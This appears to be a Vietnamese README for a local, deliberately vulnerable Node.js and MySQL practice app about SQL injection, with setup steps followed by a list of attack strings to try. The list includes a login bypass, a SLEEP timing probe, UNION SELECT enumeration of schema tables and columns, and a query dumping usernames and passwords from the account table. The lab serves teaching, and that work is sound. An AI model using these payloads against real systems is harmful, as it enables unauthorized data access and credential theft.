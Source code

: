 1. Cài ứng dụng
    - Nodejs
    - MySql
    - Vscode

2. Vào ứng dụng MySql và tạo một database "sql_injection"

3. Import database trong thư mục database vào mysql

4. Mở ứng dụng bằng vscode

5. Vào file database.js (model/database.js) chỉnh sửa "username" (dòng 5) và "password" (dòng 6) - chính là username và password của database cần kết nối

6. Mở terminal (cmd)

7. Gõ lệnh: 
    - npm install --global yarn (Nếu đã cài yarn thì không cần thực hiện câu lệnh này)
    - yarn
    - yarn start

8. Mở trình duyệt với url: "http://localhost:3000"

9. Các câu lệnh tấn công thử trên web:
    - ' OR 1 = 1 --
    - ' AND SLEEP(1) --
    - ' ORDER BY 4 --
    - ' ORDER BY 5 --
    - ' UNION SELECT 1, 2, 3, 4 --
    - ' UNION SELECT 1, GROUP_CONCAT(TABLE_NAME), 3, 4 FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA= DATABASE() -- ' UNION SELECT 1, GROUP_CONCAT(COLUMN_NAME), 3, 4 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME= 'account' --
    - ' UNION SELECT id, password, username, 4 FROM account --

10. Note:
    - Trường hợp xảy ra lỗi khi chạy "yarn start" xem tại link "https://stackoverflow.com/questions/50093144/mysql-8-0-client-does-not-support-authentication-protocol-requested-by-server"
    - Đằng sau mỗi dấu -- ở phần 8 luôn có 1 dấu cách